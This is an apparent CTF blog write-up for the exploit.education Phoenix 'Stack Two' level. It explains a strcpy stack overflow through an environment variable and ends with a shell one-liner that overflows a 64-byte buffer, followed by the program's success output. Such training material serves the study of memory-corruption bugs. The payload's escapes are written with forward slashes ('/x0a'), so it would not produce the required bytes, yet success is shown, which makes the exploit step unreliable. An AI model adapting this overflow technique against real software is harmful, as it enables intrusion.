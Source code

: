 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x2"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Stack Two](https://exploit.education/phoenix/stack-two/)

<!--more-->

Running the binary reveals that we need to change an environment variable

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

After setting the variable, the output changes

```bash
export ExploitEducation=AAAA
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

Looking at the disassembly of the main function we can see where the
environment variable is stored:

```
0x0804856e      e8edfdffff     call sym.imp.getenv        ; char *getenv(const char *name);
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      8945f4         mov dword [ebp - local_ch], eax

```

`[ebp - local_ch]` which is at ebp - 0x0C.

This variable is later used in an unsafe call to strcpy where the content of the environment
variable is copied to ebp - local_50h or ebp-0x50. For the success check, the value at ebp - 0x10
is compared to 0xd0a090a. We need a way to write to ebp - 0x10.

The buffer size is 64 bytes. Thus we need to write 64 bytes + the 4 required bytes.

# Exploit

```bash
user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python -c 'print "A"*64 + "/x0a/x09/x0a/x0d"'`         
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
